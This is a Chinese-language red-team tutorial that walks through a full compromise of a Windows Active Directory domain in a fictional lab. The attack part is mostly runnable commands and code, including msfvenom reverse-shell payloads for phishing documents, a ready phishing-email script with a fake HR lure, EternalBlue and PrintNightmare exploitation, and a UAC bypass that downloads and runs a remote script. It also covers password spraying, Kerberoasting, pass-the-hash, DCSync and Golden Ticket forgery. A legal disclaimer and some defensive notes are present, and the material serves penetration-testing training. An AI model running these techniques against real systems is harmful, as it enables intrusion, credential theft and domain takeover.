



## Windows 域环境渗透实战

> **法律声明**：本文所有技术内容仅限于合法授权的安全测试和教育研究。未经授权对计算机系统进行渗透测试属于违法行为，可能触犯《中华人民共和国网络安全法》《刑法》第285条（非法侵入计算机信息系统罪）等相关法律。读者应在获得书面授权的环境中实践本文技术。

### 为什么域环境渗透是红队核心技能

Active Directory（AD）域环境是企业 IT 基础设施的中枢神经系统。全球超过 95% 的财富500强企业使用 Active Directory 管理身份认证和资源访问。一旦攻击者在域环境中获得立足点，从普通域用户到域管理员的路径往往比人们想象的更短——因为 AD 的设计初衷是便利性优先，安全性是后天叠加的。

理解域渗透的完整链路，不仅是红队的必备技能，更是蓝队做好防御的前提。只有知道攻击者如何走完全程，才能在关键节点设置有效的检测和阻断。

### 攻击全景图

下图展示了一次典型的域渗透从初始访问到域控沦陷的完整路径：



### 场景设定

| 属性 | 值 |
|------|------|
| 域名 | `megacorp.local` |
| 域控制器 | Windows Server 2019，IP `10.10.10.10` |
| 域成员 | Windows 10/11 工作站，约 200 台 |
| 网络段 | `10.10.10.0/24`（服务器）、`10.10.20.0/24`（工作站） |
| 初始权限 | 普通域用户 `john.doe`，密码 `Welcome1` |
| 攻击目标 | 域管理员权限 → 域控完全控制 → 全域凭据提取 |

**攻击者机器**：Kali Linux，IP `10.10.10.1`，已安装 Impacket、BloodHound、Hashcat 等工具。

---

### 阶段一：信息收集

信息收集是整个攻击链的地基。遗漏关键信息会导致后续攻击路径断裂。域环境的信息收集分为三个维度：域结构枚举、网络拓扑扫描、用户和组关系梳理。

#### 域环境枚举

##### PowerView —— 域内信息收集瑞士军刀

PowerView 是 PowerSploit 项目的核心模块，提供了一整套 AD 枚举函数。它通过 LDAP 协议查询域控，所有操作都是正常的目录查询，不会触发 IDS 的暴力破解告警。

```powershell
# 导入 PowerView（绕过执行策略）
Import-Module .\PowerView.ps1
# 如果执行策略阻止，使用：
# powershell -ep -f PowerView.ps1

# ===== 域基础信息 =====
# 获取域的基本属性：域名、域SID、域功能级别、PDC模拟器
Get-Domain | Select-Object Name, DomainSID, DomainMode, PdcRoleOwner

# 获取域控制器列表（包含操作系统版本、是否为GC）
Get-DomainController | Select-Object Name, OSVersion, IsGlobalCatalog, IPAddress

# ===== 用户枚举 =====
# 列出所有域用户（关键属性）
Get-DomainUser | Select-Object samaccountname, description, memberof, 
    pwdlastset, logoncount, badpwdcount, admincount |
    Export-Csv -Path users.csv -NoTypeInformation

# 查找设置了 SPN 的账户（Kerberoasting 目标）
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname, 
    pwdlastset, memberof

# 查找不需要 Kerberos 预认证的账户（AS-REP Roasting 目标）
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname, description

# 查找描述中包含密码的用户（真实环境中出奇地常见）
Get-DomainUser | Where-Object {$_.description -match 'password|pwd|密码'} |
    Select-Object samaccountname, description

# ===== 组枚举 =====
# 列出域管理员组成员（递归展开嵌套组）
Get-DomainGroupMember -Identity "Domain Admins" -Recurse |
    Select-Object MemberName, MemberDN

# 列出企业管理员
Get-DomainGroupMember -Identity "Enterprise Admins" -Recurse

# 列出所有高权限组成员
@("Domain Admins","Enterprise Admins","Schema Admins","Administrators",
  "Account Operators","Backup Operators","Server Operators") | ForEach-Object {
    Write-Host "`n[*] $_ :" -ForegroundColor Yellow
    Get-DomainGroupMember -Identity $_ -Recurse 2>$null | Select-Object MemberName
}

# ===== 计算机枚举 =====
# 列出所有域计算机
Get-DomainComputer | Select-Object dnshostname, operatingsystem, 
    logoncount, lastlogon

# 查找具有约束委派的计算机
Get-DomainComputer -TrustedToAuth | Select-Object dnshostname, 
    msds-allowedtodelegateto

# ===== ACL 分析 =====
# 查找对高权限组有写权限的用户（ACL 攻击路径）
Find-InterestingDomainAcl -ResolveGUIDs | 
    Where-Object {$_.IdentityReferenceName -notmatch "Admin"} |
    Select-Object ObjectDN, ActiveDirectoryRights, IdentityReferenceName

# ===== GPO 枚举 =====
# 列出所有 GPO 及其应用范围
Get-DomainGPO | Select-Object displayname, gpcfilesyspath |
    Format-Table -AutoSize

# 查找特定计算机应用的 GPO
Get-DomainGPO -ComputerIdentity "WS001" | Select-Object displayname
```

> **原理说明**：PowerView 的所有函数底层都是 LDAP 查询，使用 `System.DirectoryServices` 命名空间。域用户默认对 AD 中的大部分对象有读取权限（ListChildren + ReadProperty），所以这些查询不需要特殊权限就能执行。这也是为什么"普通域用户"在渗透测试中价值远超"普通本地用户"。

##### BloodHound —— 攻击路径可视化

BloodHound 通过图论算法分析 AD 中的复杂关系，自动计算从任意节点到 Domain Admin 的最短路径。它是发现非显而易见攻击路径的利器。

```bash
# ===== 数据收集（SharpHound） =====
# 在域内机器上运行（推荐使用 Python 版本从外部收集）
python3 bloodhound.py \
    -u 'john.doe' -p 'Welcome1' \
    -d megacorp.local \
    -dc dc.megacorp.local \
    -c All \
    --zip

# 参数说明：
# -c All    : 收集所有数据（Users, Groups, Computers, Sessions, ACLs, 
#             Trusts, ObjectProps, Container, GPO, RDP, DCOM, PSRemote）
# --zip     : 打包为 ZIP 方便导入

# ===== Neo4j 数据库启动 =====
# BloodHound 使用 Neo4j 图数据库存储关系数据
neo4j console &
# 首次使用需要设置密码（默认 neo4j/neo4j）

# ===== 导入数据 =====
# 方法一：BloodHound GUI 拖入 ZIP 文件
# 方法二：使用 neo4j-admin import（大规模环境）

# ===== 关键查询（Pre-Built Queries） =====
# BloodHound 内置的高价值查询：
# 1. Find all Domain Admins               — 列出所有域管
# 2. Find Shortest Paths to Domain Admins — 最短攻击路径
# 3. Find Principals with DCSync Rights   — 有 DCSync 权限的主体
# 4. Users with Foreign Domain Group Membership — 跨域组成员
# 5. Map Domain Trusts                    — 域信任关系图
```

**BloodHound 关键发现示例**：

| 发现 | 攻击路径 | 影响 |
|------|----------|------|
| 用户A 是 HelpDesk 组成员 | HelpDesk → 对用户B 有 GenericAll → 用户B 是 Domain Admin | 间接域管路径 |
| 计算机C 允许 Unconstrained Delegation | 等待域管登录 → 提取 TGT → 模拟域管 | 无需密码即可提权 |
| 服务账户D 有 SPN 且密码为 your_password | Kerberoasting → 离线破解 → 服务账户在 Domain Admins 组 | 快速域管 |

#### 网络扫描

域环境的网络扫描需要有针对性地关注 AD 相关端口。

```bash
# ===== AD 核心端口扫描 =====
# 这些端口暴露了域控的关键服务
nmap -sS -sV -p 88,135,139,389,445,636,3268,3269,5985,5986,9389 \
    10.10.10.0/24 -oA ad_ports

# 端口含义：
# 88    — Kerberos 认证
# 135   — RPC Endpoint Mapper
# 139   — NetBIOS Session Service（SMB over NetBIOS）
# 389   — LDAP（明文）
# 445   — SMB（文件共享、组策略下发）
# 636   — LDAPS（加密 LDAP）
# 3268  — Global Catalog（全局编录，跨域查询）
# 3269  — Global Catalog over SSL
# 5985  — WinRM HTTP（远程管理）
# 5986  — WinRM HTTPS
# 9389  — Active Directory Web Services（ADWS）

# ===== SMB 签名检查 =====
# SMB 签名未开启是 NTLM Relay 攻击的前提条件
nmap --script smb2-security-mode -p 445 10.10.10.0/24

# 输出中 "Message signing enabled but not required" 意味着可以进行 Relay

# ===== 服务版本指纹 =====
nmap -sV -p 88,389,445,5985 dc.megacorp.local

# ===== 漏洞扫描（谨慎使用，可能影响生产环境） =====
nmap --script vuln -p 445 10.10.10.0/24
```

**域环境端口一览表**：



---

### 阶段二：凭据获取

在域环境中，凭据是横向移动的硬通货。本阶段的目标是从已有的普通域用户出发，获取更多用户的凭据或凭据哈希。

#### 密码喷洒（Password Spraying）

在获取了域用户列表之后，用少量常见密码对大量用户进行尝试，比暴力破解单个用户更隐蔽、更有效。

```bash
# 使用 CrackMapExec 进行 SMB 密码喷洒
# 用一个常见密码尝试所有域用户
crackmapexec smb 10.10.10.0/24 -u users.txt -p 'Spring2026!' \
    --continue-on-success

# 参数说明：
# --continue-on-success : 命中后继续测试其他用户（收集更多凭据）

# 使用 Kerbrute 进行 Kerberos 密码喷洒（更隐蔽，不产生大量失败登录日志）
./kerbrute passwordspray \
    --dc 10.10.10.10 \
    -d megacorp.local \
    users.txt 'Welcome1'

# Kerbrute 的优势：
# 1. 使用 Kerberos AS-REQ，不经过 DC 的 NTLM 认证
# 2. 不会锁定账户（除非 AD 配置了 Kerberos 预认证锁定策略）
# 3. 速度比 NTLM 快，因为 Kerberos 不需要完整握手
```

> **为什么密码喷洒有效**：企业密码策略通常要求复杂度（大写+小写+数字+特殊字符），用户倾向于使用可预测的模式，如 `公司名+季节+年份+!`（`Megacorp2026!`）。统计显示，约 15-25% 的企业用户使用高度相似的密码模式。

#### 钓鱼攻击

钓鱼是获取初始立足点最常用的方式之一。域环境中，钓鱼的价值在于从"无权限"变为"域用户权限"。

```powershell
# ===== 恶意宏文档生成 =====
# 方法一：MacroPack（自动化程度高）
python macro_pack.py -e CMD -g demo.doc -o
# -e CMD  : 嵌入 CMD 命令执行载荷
# -g doc  : 生成 .doc 格式
# -o      : 混淆输出

# 方法二：Metasploit 生成 VBA 载荷
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f vba-psh
# 将输出的 VBA 代码嵌入 Office 文档的宏编辑器中

# ===== HTA 文件投递 =====
# HTA 文件可以通过浏览器直接执行，绕过部分防护
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f hta-psh -o update.hta

# ===== 钓鱼邮件发送 =====
```

```python
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

def send_phishing(target_email, attachment_path, attachment_name):
    """
    钓鱼邮件发送示例（仅用于授权测试环境）
    
    实际渗透中需要注意：
    1. 发件人地址需要与目标组织的邮件格式一致
    2. 邮件主题需要利用目标组织的业务场景（财务、HR、IT通知等）
    3. 正文需要避免明显的语法错误和拼写错误
    4. 附件需要进行免杀处理
    """
    msg = MIMEMultipart()
    msg['From'] = 'hr@megacorp.local'
    msg['To'] = target_email
    msg['Subject'] = '2026年度薪资调整方案 - 请查阅确认'
    
    body = """尊敬的同事：

人力资源部已完成2026年度薪资调整方案的编制工作，
请查阅附件中的调整明细，并于本周五前确认。

如有疑问，请联系人力资源部。

此致
人力资源部"""
    
    msg.attach(MIMEText(body, 'plain', 'utf-8'))
    
    with open(attachment_path, 'rb') as f:
        attachment = MIMEBase('application', 'octet-stream')
        attachment.set_payload(f.read())
        encoders.encode_base64(attachment)
        attachment.add_header(
            'Content-Disposition', 'attachment',
            filename=('utf-8', '', attachment_name)
        )
        msg.attach(attachment)
    
    server = smtplib.SMTP('mail.megacorp.local', 587)
    server.starttls()
    server.login('hr_account', 'password')
    server.send_message(msg)
    server.quit()
```

#### 漏洞利用

当目标环境存在已知漏洞时，漏洞利用可以跳过认证直接获取权限。

**MS17-010（永恒之蓝）**：

永恒之蓝利用 SMBv1 协议中的缓冲区溢出漏洞（CVE-2017-0144），可实现远程代码执行。虽然该漏洞已有多年历史，但在未打补丁的遗留系统中仍能见到。

```bash
# 使用 Metasploit 利用 MS17-010
msfconsole -q -x "
use exploit/windows/smb/ms17_010_eternalblue;
set RHOSTS 10.10.10.100;
set LHOST 10.10.10.1;
set payload windows/x64/meterpreter/reverse_tcp;
exploit;
"
```

> **注意**：永恒之蓝利用可能导致目标蓝屏（BSOD）。在生产环境的授权测试中应格外谨慎，建议先在实验室中验证稳定性。

**PrintNightmare（CVE-2021-34527）**：

PrintNightmare 利用 Windows Print Spooler 服务的远程代码执行漏洞。该服务默认在域控上运行，且普通域用户可以通过 MS-RPRN 协议触发它。

```bash
# 利用 PrintNightmare 进行远程代码执行
python3 CVE-2021-34527.py \
    -target 10.10.10.10 \
    -username john.doe \
    -password 'Welcome1' \
    -domain megacorp.local \
    -dll payload.dll

# 验证 Print Spooler 服务是否运行（利用前提）
rpcdump.py @10.10.10.10 | grep -i "spoolsv"
```

---

### 阶段三：权限提升

获取初始访问后，通常只有普通用户权限。权限提升是突破安全边界、获取 SYSTEM 或管理员权限的关键步骤。

#### 本地权限提升

##### UAC 绕过

UAC（User Account Control）是 Windows 的权限分隔机制。某些 UAC 绕过技术可以在不弹出 UAC 提示框的情况下，以管理员权限执行代码。

```powershell
# ===== Fodhelper.exe UAC 绕过 =====
# 原理：Fodhelper.exe 是 Windows 功能管理器，它以 autoElevate 权限运行，
# 但会读取当前用户注册表中的命令。通过修改 HKCU 注册表，可以劫持其执行流程。
# HKCU 不需要管理员权限写入，而 Fodhelper 会以高完整性级别执行。

$regPath = "HKCU:\Software\Classes\ms-settings\Shell\Open\command"

# 创建注册表项
New-Item -Path $regPath -Force

# 设置要执行的命令
New-ItemProperty -Path $regPath -Name "(default)" `
    -Value "cmd /c powershell -ep bypass -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.1/rev.ps1')" `
    -Force

# DelegateExecute 必须为空字符串，否则 Fodhelper 不会执行自定义命令
New-ItemProperty -Path $regPath -Name "DelegateExecute" -Value "" -Force

# 触发 UAC 绕过
Start-Process "fodhelper.exe"

# 清理注册表（渗透完成后）
Remove-Item -Path $regPath -Recurse -Force
```

**其他常见的 UAC 绕过方法**：

| 方法 | 利用的二进制 | Windows 版本 | 原理 |
|------|-------------|-------------|------|
| Fodhelper | fodhelper.exe | 10/11 | 注册表键值劫持 |
| ComputerDefaults | computerdefaults.exe | 10/11 | 注册表键值劫持 |
| EventViewer | eventvwr.exe | 7/8.1/10 | 注册表键值劫持 |
| sdclt | sdclt.exe | 10 | 注册表键值劫持 |
| CMSTP | cmstp.exe | 7/10 | INF 文件劫持 |

##### 服务权限提升

Windows 服务以 SYSTEM 权限运行，如果某个服务的二进制路径可被普通用户修改，就可以将命令注入到服务启动流程中。

```powershell
# ===== 查找可写服务 =====
# 方法一：使用 accesschk（Sysinternals 工具）
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
# 关注输出中 SERVICE_ALL_ACCESS 或 SERVICE_CHANGE_CONFIG 的服务

# 方法二：使用 PowerUp（PowerSploit 模块）
Import-Module .\PowerUp.ps1
Get-ModifiableService | Select-Object ServiceName, Path, StartType

# 方法三：使用 WinPEAS（自动提权检查）
winpeas.exe servicesinfo

# ===== 利用可写服务 =====
# 假设发现 VulnService 的二进制路径可修改

# 步骤1：查看当前服务配置
sc qc VulnService

# 步骤2：修改二进制路径为恶意命令
sc config VulnService binpath= "cmd /c net localgroup Administrators john.doe /add"

# 步骤3：重启服务触发执行
sc stop VulnService
sc start VulnService

# 步骤4：验证提权
whoami /groups
```

> **DLL 劫注（DLL Hijacking）**：另一种常见的服务提权方式。如果服务加载的 DLL 路径不存在或可被替换，攻击者可以放置恶意 DLL 在服务的搜索路径中。使用 `ProcMon`（Process Monitor）可以监控服务启动时的 DLL 加载行为，找到缺失的 DLL。

#### 域权限提升

域权限提升的目标是从普通域用户跃迁到具有域管理员权限的用户。这是域渗透中最关键的步骤。

##### Kerberoasting

**原理**：当域用户请求访问某个服务时，KDC 会使用该服务账户的 NTLM 哈希加密一张 TGS（Service Ticket）返回给用户。如果攻击者截获这张 TGS，就可以离线暴力破解服务账户的密码。服务账户通常设置 SPN（Service Principal Name），任何人都可以请求其 TGS——不需要特殊权限。

```powershell
# ===== 方法一：PowerView + Rubeus =====
# 1. 枚举所有设置了 SPN 的用户账户
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname, 
    pwdlastset, memberof

# 2. 使用 Rubeus 请求 TGS 并导出哈希
Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt

# ===== 方法二：Impacket（从 Linux 攻击机运行） =====
impacket-GetUserSPNs megacorp.local/john.doe:'Welcome1' \
    -dc-ip 10.10.10.10 \
    -request \
    -outputfile kerberoast_hashes.txt

# ===== 哈希破解 =====
# Kerberoast 使用的加密类型和对应的 Hashcat 模式：
# RC4-HMAC (etype 23)  → hashcat -m 13100  （最常见，最易破解）
# AES-256 (etype 18)   → hashcat -m 19700  （更安全，破解更慢）
# AES-128 (etype 17)   → hashcat -m 19600

hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# 实战建议：
# 1. 优先破解 RC4 加密的票证（速度比 AES 快 100 倍以上）
# 2. 使用规则增强的字典（best64.rule, dive.rule）
# 3. 如果字典无效，尝试基于公司名+年份的定制字典
```

**Kerberoasting 攻击流程**：



> **防御视角**：Kerberoasting 的根本原因是 TGS 用服务账户的密码哈希加密，而任何人都可以请求 TGS。防御措施包括：(1) 服务账户使用 25+ 字符的随机密码；(2) 禁用 RC4 加密（强制 AES）；(3) 使用 Group Managed Service Accounts（gMSA）自动轮换密码；(4) 监控单个用户短时间内请求大量 TGS 的行为。

##### AS-REP Roasting

**原理**：如果域用户禁用了 Kerberos 预认证（DoNotRequirePreauth），攻击者可以向 KDC 发送 AS-REQ 请求该用户的 TGT，KDC 会直接返回用该用户密码哈希加密的 TGT。攻击者可以离线破解这个哈希。

```powershell
# ===== 枚举禁用预认证的用户 =====
# 在 PowerView 中
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname, description

# 或使用 AD PowerShell 模块
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

# ===== 收集 AS-REP 哈希 =====
# 方法一：Rubeus（域内执行）
Rubeus.exe asreproast /outfile:asrep_hashes.txt

# 方法二：Impacket（从外部攻击机）
impacket-GetNPUsers megacorp.local/ \
    -dc-ip 10.10.10.10 \
    -request \
    -format hashcat \
    -outputfile asrep_hashes.txt

# ===== 破解 AS-REP 哈希 =====
# AS-REP 使用 RC4-HMAC 加密，hashcat 模式 18200
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/d3ad0ne.rule
```

> **AS-REP vs Kerberoasting 对比**：AS-REP Roasting 需要目标用户手动禁用预认证（默认开启），所以目标较少。但正因为目标少，管理员往往忽略这些账户的密码强度，反而容易破解成功。Kerberoasting 的目标更多，但服务账户密码通常更强。

---

### 阶段四：横向移动

在域环境中，横向移动是将权限从一台机器扩展到更多机器的过程。攻击者需要在不同主机间跳转，逐步接近高价值目标（域控）。

#### Pass-the-Hash（PtH）

**原理**：Windows 的 NTLM 认证协议中，密码不直接在网络上传输，而是传输哈希值。因此，只要拥有用户的 NTLM 哈希，就可以直接通过认证，无需知道明文密码。

```bash
# ===== 使用 Impacket 工具套件 =====
# psexec：通过 SMB 上传并执行服务，获取 SYSTEM 权限
# 最经典但最"吵"的横向移动方式（会创建服务和文件）
impacket-psexec \
    -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 \
    Administrator@10.10.10.100

# wmiexec：通过 WMI 执行命令，不留文件痕迹
# 推荐的横向移动方式，更隐蔽
impacket-wmiexec \
    -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 \
    Administrator@10.10.10.100

# smbexec：通过 SMB 执行命令，不需要上传文件
impacket-smbexec \
    -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 \
    Administrator@10.10.10.100

# atexec：通过 Task Scheduler 执行命令
impacket-atexec \
    -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 \
    Administrator@10.10.10.100 "whoami"
```

**横向移动工具对比**：

| 工具 | 协议 | 痕迹大小 | 是否上传文件 | 适用场景 |
|------|------|----------|-------------|----------|
| psexec | SMB + RPC | 大 | 是（服务二进制） | 快速获取交互式 Shell |
| wmiexec | WMI + SMB | 小 | 否 | 隐蔽执行命令 |
| smbexec | SMB | 中 | 否 | 无 WMI 时的替代 |
| atexec | Task Scheduler | 小 | 否 | 单次命令执行 |
| dcomexec | DCOM | 小 | 否 | SMB/WMI 被封堵时 |

```powershell
# ===== 域内 PtH（使用 Mimikatz） =====
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:Administrator /domain:megacorp.local \
    /ntlm:e0fb1fb85756c24235ff238cbe81fe00

# 执行后会弹出一个新的 cmd.exe 窗口，该窗口以目标用户身份运行
# 可以在新窗口中访问目标资源
dir \\10.10.10.100\c$
```

#### Pass-the-Ticket（PtT）

**原理**：Kerberos 认证使用票据（Ticket）而非密码哈希。攻击者可以窃取或伪造 Kerberos 票据，注入到当前会话中，以票据对应用户的身份访问资源。

```powershell
# ===== 使用 Rubeus =====
# 请求 TGT 并注入当前会话
Rubeus.exe asktgt /user:Administrator /domain:megacorp.local \
    /rc4:e0fb1fb85756c24235ff238cbe81fe00 /ptt

# /ptt 参数表示直接注入到当前会话（Pass-the-Ticket）
# 注入后可以直接访问域资源
dir \\dc.megacorp.local\c$

# 导出当前会话中的所有票据
Rubeus.exe dump /nowrap

# 从其他用户会话中窃取票据
Rubeus.exe triage
Rubeus.exe dump /luid:0x3e7 /nowrap  # SYSTEM 会话的票据

# ===== 使用 Mimikatz =====
# 从文件导入票据
mimikatz # kerberos::ptt ticket.kirbi

# 从 LSASS 内存中提取所有票据
mimikatz # sekurlsa::tickets /export

# 导出的 .kirbi 文件可以注入到其他会话中
```

#### WinRM 横向移动

WinRM（Windows Remote Management）是 Windows 内置的远程管理协议，基于 HTTP/HTTPS，比 SMB 更隐蔽。

```powershell
# ===== 使用 WinRM 横向移动 =====
# 测试 WinRM 连接
Test-WSMan -ComputerName 10.10.10.100 -Credential (Get-Credential)

# 远程执行命令
Invoke-Command -ComputerName 10.10.10.100 -Credential $cred -ScriptBlock {
    whoami
    hostname
    ipconfig
}

# 进入交互式会话
Enter-PSSession -ComputerName 10.10.10.100 -Credential $cred

# 使用 Evil-WinRM（从 Kali 攻击机）
evil-winrm -i 10.10.10.100 -u Administrator -H 'e0fb1fb85756c24235ff238cbe81fe00'
# -H 参数支持 PtH（Pass-the-Hash）
```

---

### 阶段五：域控制器攻击

域控（Domain Controller）是域环境的核心，存储着所有域用户的凭据和策略配置。攻击域控意味着完全控制整个域。

#### DCSync 攻击

**原理**：DCSync 利用 AD 的域控制器复制协议（DRSUAPI）。正常情况下，域控之间需要定期同步目录数据。攻击者如果拥有"复制目录更改"（Replicating Directory Changes）和"复制目录更改所有"（Replicating Directory Changes All）权限，就可以伪装成域控向目标域控请求任何用户的凭据哈希。

默认情况下，Domain Admins、Enterprise Admins 和 Domain Controllers 组拥有此权限。

```bash
# ===== 使用 Impacket（从 Linux 攻击机） =====
# 提取 krbtgt 账户哈希（制作 Golden Ticket 所需）
impacket-secretsdump \
    megacorp.local/Administrator:'Password123'@10.10.10.10

# 输出包含：
# - 所有域用户的 NTLM 哈希
# - 所有域计算机的 NTLM 哈希
# - krbtgt 账户哈希
# - DPAPI 备份密钥
# - LSA Secrets（可能包含服务账户明文密码）
```

```powershell
# ===== 使用 Mimikatz（域内执行） =====
mimikatz # lsadump::dcsync /domain:megacorp.local /user:krbtgt
# 提取 krbtgt 的 NTLM 哈希和 SID

mimikatz # lsadump::dcsync /domain:megacorp.local /user:Administrator
# 提取域管理员的 NTLM 哈希

# 导出所有域用户哈希
mimikatz # lsadump::dcsync /domain:megacorp.local /all /csv
```

> **DCSync 前提条件**：执行 DCSync 的用户必须拥有以下 AD 权限之一：(1) Domain Admins 组成员；(2) Enterprise Admins 组成员；(3) 被显式授予 DS-Replication-Get-Changes 和 DS-Replication-Get-Changes-All 权限。BloodHound 的 "Find Principals with DCSync Rights" 查询可以发现被意外授予权限的用户。

#### Golden Ticket（黄金票据）

**原理**：Golden Ticket 是完全伪造的 TGT（Ticket Granting Ticket）。攻击者使用 krbtgt 账户的 NTLM 哈希，可以为任意用户伪造 TGT，并设置任意组成员关系（包括 Domain Admins）。由于 krbtgt 密码只在域功能级别升级时才自动更改，Golden Ticket 的有效期极长。

```powershell
# ===== 创建 Golden Ticket =====
# 需要的信息：
# 1. krbtgt 账户的 NTLM 哈希（从 DCSync 获取）
# 2. 域 SID（Get-DomainSID 或 whoami /user）
# 3. 想要伪造的用户名（可以是不存在的用户）

mimikatz # kerberos::golden \
    /user:Administrator \
    /domain:megacorp.local \
    /sid:S-1-5-21-1234567890-1234567890-1234567890 \
    /krbtgt:krbtgt_ntlm_hash_here \
    /ptt

# /ptt 参数直接将票据注入当前会话

# ===== 验证 Golden Ticket =====
# 访问域控文件系统
dir \\dc.megacorp.local\c$

# 获取域控的 SYSTEM 权限
psexec.exe \\dc.megacorp.local cmd.exe

# ===== 使用 Impacket 制作 Golden Ticket =====
impacket-ticketer \
    -nthash <krbtgt_ntlm_hash> \
    -domain-sid S-1-5-21-xxx \
    -domain megacorp.local \
    Administrator

export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass megacorp.local/Administrator@dc.megacorp.local
```

#### Silver Ticket（白银票据）

**原理**：Silver Ticket 是伪造的 TGS（Service Ticket）。与 Golden Ticket 不同，Silver Ticket 只能访问特定服务，不需要 krbtgt 哈希，只需要目标服务账户的 NTLM 哈希。由于 TGS 的验证由服务端自己完成（不回查 KDC），Silver Ticket 更难被检测。

```powershell
# 为 SQL Server 服务创建 Silver Ticket
mimikatz # kerberos::golden \
    /user:Administrator \
    /domain:megacorp.local \
    /sid:S-1-5-21-xxx \
    /target:sql.megacorp.local \
    /service:MSSQLSvc \
    /rc4:sqlsvc_ntlm_hash \
    /ptt

# 使用 Silver Ticket 访问 SQL Server
sqlcmd -S sql.megacorp.local
```

---

